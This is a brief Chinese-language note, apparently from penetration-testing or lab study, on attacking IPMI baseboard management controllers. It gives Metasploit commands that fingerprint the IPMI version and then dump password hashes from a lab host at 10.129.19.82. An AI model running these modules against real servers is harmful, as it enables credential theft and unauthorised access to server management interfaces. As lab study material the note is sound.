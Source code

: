 # IPMI (Bare Metal BMC automation的一个平台)

‍

```bash
1. 首先获取版本
use  auxiliary/scanner/ipmi/ipmi_version
set rhosts 10.129.19.82
run
2. 提取hash
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.129.19.82
run
```

‍
